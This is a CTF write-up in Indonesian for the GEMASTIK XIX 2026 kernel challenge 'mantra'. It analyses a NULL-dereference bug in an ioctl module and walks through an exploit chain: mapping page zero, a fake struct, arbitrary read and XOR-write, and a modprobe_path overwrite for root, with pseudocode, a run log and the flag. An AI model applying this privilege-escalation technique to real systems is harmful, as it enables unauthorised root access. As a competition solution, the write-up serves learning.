




# 🏁 CTF Writeup - `GEMASTIK XIX 2026 - Keamanan Siber (Penyisihan)`

Writeup challenge **`mantra`**.

---

# `mantra` - pwn

|                  |                          |                |                                     |
| ---------------- | ------------------------ | -------------- | ----------------------------------- |
| 🏆 **Event**     | `GEMASTIK XIX 2026`      | 📅 **Date**    | `2026-08-24`                        |
| 🏷️ **Category** | `pwn / kernel`           | 💯 **Points**  | `481`                               |
| ⭐ **Difficulty** | ★★★★☆                    | 👤 **Author**  | `hanzo`                             |
| 🧑‍💻 **Team**    | `<isi nama tim>`         | 🛠️ **Tools**  | `objdump, gcc (-nostdlib), pwntools` |
| 🤖 **AI Source** | https://share.gemini.google/KxYrdoKVUwA0 | 🧩 **Solver** | [`solve_tiny.c`](solve_tiny.c) + [`exploit.py`](exploit.py) |
| 🔖 **Tags**      | `#linux-kernel` `#null-deref` `#mmap_min_addr` `#modprobe_path` | | |

---

### 📝 Deskripsi Soal

> pemanasan dulu biar panas ya mas
>
> `print(10+6)` -> `17`
>
> Author: hanzo

Remote: `nc 15.232.64.175 13338`. Handout: `handout.zip` isinya `bzImage`, `rootfs.cpio.gz`,
`mantra.ko`, `run.sh`, `System.map`.

Deskripsinya ngeledek "pemanasan", tapi ini kernel exploitation beneran. Nama flag-nya sendiri
bocorin bug-nya: *not all pointers point somewhere, some point to zero*.



---

### 🔍 Reconnaissance

Handout cuma satu file, `handout.zip`. Semua bahan analisis diekstrak dari situ:

```bash
$ unzip -l handout.zip
    mantra.ko          # modul rentan (objdump/readelf)
    rootfs.cpio.gz     # initramfs, login uid 1000
    run.sh             # perintah qemu -> mitigasi
    System.map         # tabel simbol kernel (alamat tetap krn nokaslr)
    bzImage            # kernel Linux
```

Jadi `run.sh` datang langsung dari `handout.zip`. Tapi `init` (skrip setup korban) nggak ada di
zip, dia di dalam initramfs `rootfs.cpio.gz`, jadi diekstrak dulu:

```bash
$ mkdir rootfs && cd rootfs
$ zcat ../rootfs.cpio.gz | cpio -idm
$ cat init
```

**Mitigasi dari `run.sh`:**

```bash
qemu-system-x86_64 ... -cpu qemu64,+smep -smp 1 \
  -append "console=ttyS0 nokaslr nopti oops=panic panic=-1 quiet loglevel=1"
```

| Mitigasi | Status | Artinya |
|---|---|---|
| KASLR | **off** (`nokaslr`) | alamat kernel tetap, tinggal baca dari `System.map` |
| KPTI | **off** (`nopti`) | nggak ngehalangin (kita nggak ret2usr) |
| SMEP | on | nggak bisa eksekusi kode userland di ring0 |
| SMAP | **off** | kernel bebas baca/tulis memori userland |

**Setup korban dari `rootfs/init`:**

```sh
sysctl -w vm.mmap_min_addr=0     # <- KUNCI: halaman NULL boleh di-map user
insmod /mantra.ko
chmod 0666 /dev/mantra           # device world-accessible
chown 0:0 /flag.txt; chmod 0400 /flag.txt   # flag root-only
setsid cttyhack setuidgid 1000 /bin/sh       # kita = uid 1000
```




Jadi skenarionya klasik LPE: shell kita uid 1000, nggak bisa baca `/flag.txt` (0400 milik root),
tapi `/dev/mantra` bisa diakses siapa aja. Harus eksploitasi modul buat naik jadi root.
`misc_register` di simbol modul artinya device node `/dev/mantra` dibuat otomatis, nyambung ke
`file_operations` (open/release/ioctl).

Dan yang paling penting: **`mmap_min_addr=0`**. Ini gerbang eksploitasinya. Tanpa itu, NULL-deref
cuma jadi DoS.

---

### 🧠 Analisis

Modul nggak stripped. Tiga fungsi: `mantra_open`, `mantra_release`, `mantra_ioctl`.

- `mantra_open`: set `filp->private_data` (`file+0xc8`) = `NULL`, return 0.
- `mantra_release`: kalau `private_data` nggak NULL, `kfree` tiga hal (`+0x00`, `+0x10`, struct),
  terus set NULL lagi. Field `+0x08` nggak di-free (berarti bukan pointer, itu length).

Dari situ struct-nya ketebak, 0x20 byte:

```c
struct mantra {
    void   *key_ptr;   // +0x00
    size_t  key_len;   // +0x08
    void   *buf_ptr;   // +0x10  (data)
    size_t  buf_len;   // +0x18
};
```

`mantra_ioctl` muat `rbx = filp->private_data` di awal, terus switch berdasarkan cmd:

| cmd | nama | ringkasan | cek `private_data != NULL`? |
|---|---|---|---|
| `0x4D10` | INIT | `kzalloc(0x20)` -> `private_data` | ya (`test rbx,rbx` @ `0x21f`) |
| `0x4D11` | SET_KEY | `kmalloc(len)` + `copy_from_user`, set `key_ptr/key_len` | **ya** (@ `0x189`) |
| `0x4D12` | SET_DATA | `kmalloc(len)` + `copy_from_user`, set `buf_ptr/buf_len` | **ya** (@ `0x2af`) |
| `0x4D13` | READ | `copy_to_user(uptr, buf_ptr, min(reqlen, buf_len))` | **TIDAK** (@ `0x256`) |
| `0x4D14` | XOR | `for i: buf_ptr[i] ^= key_ptr[i % key_len]` | **TIDAK** (@ `0xfe`) |

**Ini inti bug-nya.** Tiga handler (INIT/SET_KEY/SET_DATA) manggil `test rbx,rbx` sebelum nyentuh
struct. Tapi READ dan XOR langsung men-dereference `rbx` tanpa cek:

```
; XOR (0x4D14) @ 0xfe
 fe: 48 8b 13         mov rdx,[rbx]         ; key_ptr  <- deref rbx tanpa cek!
101: 48 85 d2         test rdx,rdx          ; yang dicek key_ptr, bukan rbx
10a: 48 8b 43 10      mov rax,[rbx+0x10]    ; buf_ptr

; READ (0x4D13) @ 0x256
271: 48 8b 43 18      mov rax,[rbx+0x18]    ; buf_len   <- deref rbx tanpa cek!
282: 48 8b 73 10      mov rsi,[rbx+0x10]    ; buf_ptr
```

Kalau kita **nggak** panggil INIT, `private_data` tetap `NULL`. Manggil READ/XOR bikin modul baca
struct dari alamat `0x0`. Karena `mmap_min_addr=0`, kita bisa `mmap` halaman `0x0` dan **kontrol
penuh isi struct palsu**, termasuk `buf_ptr`.

**Dua primitif** dari struct palsu di alamat 0:

- **READ (0x4D13)** -> `copy_to_user(uptr, buf_ptr, len)` = **arbitrary read** dari `buf_ptr`.
- **XOR (0x4D14)** -> `buf_ptr[i] ^= key_ptr[i % key_len]` = **arbitrary XOR-write** ke `buf_ptr`.

XOR-write itu arbitrary write penuh: baca byte lama, hitung `key = lama ^ target`, XOR jadiin
`target`. Dan READ nyediain bacaan byte lama-nya.

**Target: `modprobe_path`.** Waktu kernel gagal eksekusi file dengan magic tak dikenal, dia
manggil `call_usermodehelper(modprobe_path, ...)` **sebagai root**. `modprobe_path` string global
`/sbin/modprobe` yang bisa ditulis. Timpa jadi `/tmp/pwn`, picu, skrip kita jalan sebagai root.
Karena nokaslr, alamatnya tetap dari `System.map`:

```
ffffffff82b3f580 D modprobe_path
```

---

### ⚔️ Exploitation

Dua file: [`solve_tiny.c`](solve_tiny.c) (exploit yang jalan di dalam VM) +
[`exploit.py`](exploit.py) (delivery pwntools). Jalanin:

```bash
$ python3 exploit.py
```

**Kenapa solve_tiny.c harus tanpa libc.** Upload ke VM lewat serial console QEMU pakai base64.
Static glibc binary itu 800 KB+ dan bakal timeout. Kompilasi `-nostdlib` bikin binary-nya cuma
~9 KB, pakai raw syscall.

**Dua jebakan kompiler yang harus dikalahin:**

1. **Optimizer NULL.** GCC anggap dereference `NULL` sebagai UB dan bisa ganti tulisan ke alamat 0
   jadi `ud2` (SIGILL). Solusinya `-fno-delete-null-pointer-checks` + fungsi `hide_ptr()` yang
   nyuci pointer lewat inline-asm biar kompiler nggak tahu itu NULL.
2. **Register syscall.** Wrapper syscall harus pakai constraint register yang bener
   (`"D"`=rdi, `"S"`=rsi, `"d"`=rdx, register var buat r10/r8/r9), bukan `"r"` yang bikin GCC bebas
   milih register dan bikin semua syscall ngaco.

Alur di dalam `solve_tiny.c`:

```c
mmap(0, 0x1000, RW, MAP_FIXED|MAP_PRIVATE|MAP_ANON, -1, 0);   // halaman NULL
fake[0]=0x300; fake[1]=9;                    // key_ptr, key_len
fake[2]=0xffffffff82b3f580; fake[3]=9;       // buf_ptr=modprobe_path, buf_len
ioctl(fd, 0x4D13, {uptr:0x200, len:9});      // READ: baca "/sbin/mod"
for i: key[i] = old[i] ^ "/tmp/pwn"[i];      // hitung XOR key
ioctl(fd, 0x4D14, 0);                        // XOR-write: modprobe_path -> "/tmp/pwn"
// bikin /tmp/pwn (cp flag) + /tmp/dummy (\xff\xff\xff\xff)
fork()+execve("/tmp/dummy");                 // gagal exec -> kernel jalanin /tmp/pwn sbg root
read("/tmp/flag");                           // flag world-readable
```



<details>
<summary>Log lengkap</summary>

```text
[*] Compiling solve_tiny.c locally...
[*] Binary compiled and encoded. Size: ~9000 bytes
[*] Connecting to 15.232.64.175:13338...
[*] Waiting for boot / shell prompt...
[*] Uploading exploit binary via chunked base64 (400 chars/chunk)...
[*] Decoding binary and setting permissions...
[*] Running exploit binary...

[+] modprobe_path overwritten successfully!

=== FLAG OUTPUT ===
GEMASTIK19{n0t_4ll_p01nt3rs_p01nt_s0m3wh3r3_s0m3_p01nt_t0_z3r0}
```
</details>

---

### 🚩 Flag

```
GEMASTIK19{n0t_4ll_p01nt3rs_p01nt_s0m3wh3r3_s0m3_p01nt_t0_z3r0}
```

---

### 📒 Catatan

- NULL-deref di kernel = full compromise kalau `mmap_min_addr=0`. Cek nilai itu duluan di soal
  kernel; kalau 0, halaman NULL bisa dijadiin struct palsu yang kita kontrol penuh.
- Cek konsistensi validasi antar-handler. Bug-nya nggak eksotis: tiga dari lima ioctl ngecek
  `private_data`, dua lupa. Bandingin handler yang mirip langsung nunjukin yang lupa.
- XOR-write itu arbitrary write penuh: `dst ^= (old ^ target)` nulis nilai apa aja asal bisa baca
  nilai lama dulu, dan di sini READ nyediain bacaan itu.
- `modprobe_path` overwrite ngalahin SMEP/SMAP tanpa ROP. Nggak perlu eksekusi kode di ring0,
  cukup ubah satu string global terus picu usermodehelper sebagai root.
- Waspada optimizer pada NULL. Tanpa `-fno-delete-null-pointer-checks` + `hide_ptr()`, penulisan
  ke halaman `0` dihapus kompiler dan exploit gagal senyap.
- Binary tanpa libc (`-nostdlib` + raw syscall) itu wajib buat upload lewat serial console yang
  lambat. Perhatiin constraint register di wrapper syscall, salah dikit semua syscall ngaco.
